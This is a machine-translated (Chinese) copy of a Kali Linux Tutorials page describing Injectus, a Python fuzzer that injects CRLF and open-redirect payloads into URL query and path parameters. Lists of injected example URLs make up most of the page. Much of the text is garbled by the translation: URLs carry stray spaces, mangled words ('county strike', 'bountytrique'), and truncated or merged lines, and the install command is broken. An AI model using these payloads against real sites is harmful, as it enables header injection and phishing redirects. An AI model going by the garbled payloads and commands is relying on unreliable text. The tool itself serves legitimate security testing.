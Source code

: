 # 注射:CRLF 和开放重定向引信

> 原文：<https://kalilinuxtutorials.com/injectus-crlf-open-redirect-fuzzer/>

[![Injectus : CRLF & Open Redirect Fuzzer](img/6a4c85dde94f7760a470724178c3c2b3.png "Injectus : CRLF & Open Redirect Fuzzer")](https://1.bp.blogspot.com/-BP4N707N3nM/XjxKE0pmo4I/AAAAAAAAEvs/JHnlTYJdPGYR6WvqMDs54L5gUTgbuZ5KwCLcBGAsYHQ/s1600/Injectus%25281%2529.png)

Injectus 是一个简单的 python 工具，它遍历一系列 URL，尝试 CRLF 和打开重定向负载。

**设计**

如果我们有以下 URL:

[https://dubell.io/?param1=value1&URL = value 2&param 3 = value 3](https://dubell.io/?param1=value1&url=value2&param3=value3)

**对于 CRLF 攻击**，对于每 n 个参数，Injectus 会将每个有效载荷注入一个参数的值。例如，Injectus 将使用上面的 URL 创建以下列表:

https://dubell.io/?param 1 = % % 0a 0 abounty:strike & URL = value 2 & param 3 = value 3
https://dubell.io/?param1=%0abounty:strike&URL = value 2&param 3 = value 3
https://dubell.io/?param1=%0d%0abounty:strike&URL = value 2&param 3 = value 3
https://dubell.io/?param1=%0dbounty:strike&URL = value 2&param 3 = value 3
https://dubell.io/?param1=%23%0dbounty:strike&URL = value 2&param 3 = value 3
https://dubell.io/?param1=%25%30%61bounty:strike&URL = value 2&param 3 = https://dubell.io/?param1=value1&URL = % 0d bounty:strike&param 3 = value 3
https://dubell.io/?param1=value1&URL = % 23% 0d bounty:strike&param 3 = value 3
https://dubell.io/?param1=value1&URL = % 25% 30% 61 bounty:strike&param 3 = value 3
https://dubell.io/?param1=value1&URL = % 30a bounty:strike&param 3 = value 3
https://dubell.io/?param1=value1& URL = value 2&param 3 = % 25% 30% 61 bounty:strike
https://dubell.io/?param1=value1&URL = value 2&param 3 = % 30 abounty:strike
https://dubell.io/?param1=value1&URL = value 2&param 3 = % 250 abounty:strike
https://dubell.io/?param1=value1&URL = value 2&param 3 = % 25250 abounty:strike
https://dubell.io/?param1=value1&URL = 1

**也读作-[mass dns:用于批量查找的高性能 DNS 存根解析器&侦察](https://kalilinuxtutorials.com/massdns-a-high-performance-dns-stub-resolver-for-bulk-lookups-reconnaissance/)**

正如您所看到的，每个 CRLF 负载都被注入到第一个参数的值中。一旦循环完成，Injectus 将把每个有效载荷注入第二个参数，依此类推。一旦注入了所有参数，列表就完整了。

如果没有查询参数，Injectus 将简单地将每个有效负载附加到 URL，如下所示:

https://dubell.io/some/path/%%0a0abounty:strike
https://dubell.io/some/path/%0abounty:strike
https://dubell.io/some/path/%0d%0abounty:strike
https://dubell.io/some/path/%0dbounty:strike
https://dubell.io/some/path/%23%0dbounty:strike
https://dubell.io/some/path/%23%0dbounty:strike
https://dubell.io/some/path/%25%30%61bounty:strike
https://dubell.io/some/path/%25%30abounty:strike
https://du bell . io/some/path/% 250 abounty:strike
https://du bell . io/some/path/% 25250 abounty:strike
https://du bell . io/some/path/% 3f % 0d bounty:strike
https://du bell . io/some/path/% 3f %

**注入开放重定向净荷**时，Injectus 只会在存在包含典型重定向关键字的查询/路径参数的情况下注入净荷，例如`**url**`。注入到以下网址 **`https://dubell.io/?param1=value1&url=dashboard&param3=value3` :**

https://dubell . I/？param 1 = value 1 & URL = $ 2f % 2 fbountytrique . io % 2f % 2 fparam 3 = value 3
https://dubell . io/？param 1 = value 1&URL = % 2f $ 2 fbountytries . ioparam 3 = value 3
https://dubell . io/？param 1 = value 1&URL = % 2 fbountytries。io % 2f % 2fparam 3 = value 3
https://dubell . io/？param 1 = value 1&URL = % 2 fbountytries。io//param 3 = value 3
https://dubell . io/？param 1 = value 1&URL = % 2 fbountytries . ioparam 3 = value 3
https://dubell . io/？param 1 = value 1&URL =///bountystrik . ioparam 3 = value 3
https://dubell . io/？param 1 = value 1&URL =////bountystrik . ioparam 3 = value 3
https://dubell . io/？param 1 = value 1&URL =//bountystrik . ioparam 3 = value 3
https://dubell . io/？param 1 = value 1&URL =/\ x88 ountytries . ioparam 3 = value 3
https://dubell . io/？param 1 = value 1&URL =/bountystrik . ioparam 3 = value 3
https://dubell . io/？param 1 = value 1&URL =/http://bountystrik . ioparam 3 = value 3
https://dubell . io/？param 1 = value 1&URL = bountystrik . ioparam 3 = value 3

URL 包含查询参数`url`，因此 Injectus 会将有效负载注入到该参数中。

使用路径参数的示例。原始网址是`**https://dubell.io/some/path/that/redirect/dashboard**`:

https://du bell . io/some/path/that/redirect/$ 2f % 2f county strike . io % 2f % 2f
https://du bell . io/some/path/that/redirect/% 2f county strike . io
https://du bell . io/some/path/that/redirect/% 2f county strike . io % 2f
https://du bell . io/some/path/that/redirect/% 2f county strike . io

和以前一样，如果没有找到查询参数或路径参数，Injectus 将简单地将每个有效负载附加到 URL:

https://dubell . io/$ 2f % 2 fbountytrique . io % 2f % 2f
https://dubell . io/% 2f $ 2 fbountytrique . io
https://dubell . io/% 2 fbountytrique . io % 2f % 2f
https://dubell . io/% 2 fbountytrique . io
https://dubell . io/% 2 fbountytrique

**安装**

**pip 3.7 install-r requirements . txt–用户**

[**Download**](https://github.com/BountyStrike/Injectus)